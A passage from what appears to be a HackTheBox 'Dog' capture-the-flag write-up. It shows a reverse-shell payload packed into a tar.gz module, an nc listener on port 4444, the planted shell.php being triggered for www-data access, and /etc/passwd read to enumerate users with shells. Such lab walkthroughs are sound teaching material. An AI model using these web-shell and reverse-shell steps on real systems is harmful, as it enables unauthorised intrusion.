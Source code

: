 Now that the files are prepared we can create a `tar.gz` archive using
`tar`

```bash
tar -czvf shell.tar.gz shells
```

![payload-tar](/images/htb-dog/payload-tar.png)

Setup a listener on our machine to accept the reverse shell request

```bash
nc -lvnp 4444
```

Now we can install the module and trigger our reverse shell payload by
visiting `http://dog.htb/modules/shell/shell.php`

![www-data](/images/htb-dog/www-data.png)

## Privilege Escalation
### User
> Reuse credentials!
{: .prompt-tip }

Now that we have access to the server let's enumerate the users on the system
with access to a shell

```bash
cat /etc/passwd | grep bash
```
